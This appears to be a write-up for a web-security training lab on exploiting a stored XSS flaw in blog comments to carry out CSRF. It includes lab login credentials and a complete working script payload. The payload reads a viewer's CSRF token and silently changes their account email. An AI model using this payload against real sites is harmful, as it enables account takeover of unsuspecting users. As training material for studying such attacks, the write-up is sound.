 Exploiting XSS to perform CSRF

----

### Lab description

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a [CSRF attack](https://portswigger.net/web-security/csrf) and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: `wiener:peter`

> Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.


#### Lab solution

- Login with `wiener:peter`
- Go to comments functionality and store the following payload:
```script

`<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() { var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@burp.oastify.com') }; </script>`
```
- Lab Solved!

